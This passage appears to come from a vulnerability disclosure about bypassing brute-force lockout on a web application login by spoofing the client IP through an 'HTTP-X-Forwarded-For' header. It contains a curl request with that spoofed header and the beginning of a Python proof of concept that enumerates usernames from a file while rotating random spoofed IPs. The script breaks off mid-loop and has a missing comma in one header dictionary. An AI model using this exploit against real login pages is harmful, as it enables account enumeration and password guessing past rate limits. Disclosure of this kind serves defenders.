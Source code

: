 For the brute-force bypass, I won't go into depth setting it up, but here's an example using curl and an `HTTP-X-Forwarded-For` header to spoof the IP address.

```
curl --path-as-is -i -s -k -X $'POST' \
    -H $'HTTP-X-Forwarded-For: 1.2.3.4' -H $'Host: localhost' \
    --data-binary $'csrf_token=5086860f64f9c14dc7d798cbb354929c6389e088cc4144eb261cfea70a883e59&username=asdfasdfdsfasdf&password=asdfasdfdsfsdfasf&remember_me=1' \
    $'http://localhost/?controller=AuthController&action=check'
```

### PoC
Here's a proof of concept in python to enumerate all users. It also incorporates IP-spoofing to bypass any bruteforce protections.

```python
import requests
import re
import sys
from pathlib import Path
import random

def random_ip():
    return ".".join(str(random.randint(1, 254)) for _ in range(4))

def extract_csrf(html):
    match = re.search(r'name="csrf_token"\s+value="([a-f0-9]{64})"', html)
    return match.group(1) if match else None

def main():
    if len(sys.argv) < 3:
        print(f"Usage: {sys.argv[0]} <url> <userfile> <hostname>")
        sys.exit(1)

    url = sys.argv[1]
    userfile = Path(sys.argv[2])
    hostname = sys.argv[3] if len(sys.argv) == 4 else 'localhost'

    if not userfile.is_file():
        print(f"[!] User file not found: {userfile}")
        sys.exit(1)

    session = requests.Session()
    headers_get = {
        "Host": hostname
    }
    headers_post = {
        "HTTP-X-Forwarded-For": random_ip(), # Spoof IP Address
        "Host": hostname
        "Content-Type": "application/x-www-form-urlencoded"
    }

    for username in userfile.read_text().splitlines():
        try:
            for i in range(0,3): # Need 3 failures to trigger
                # Step 1: Get CSRF token
                r = session.get(url, headers=headers_get)
                csrf_token = extract_csrf(r.text)
                if not csrf_token:
                    print(f"[{username}] Failed to extract CSRF token")
                    continue

                # Step 2: POST login
                payload = {
                    "csrf_token": csrf_token,
```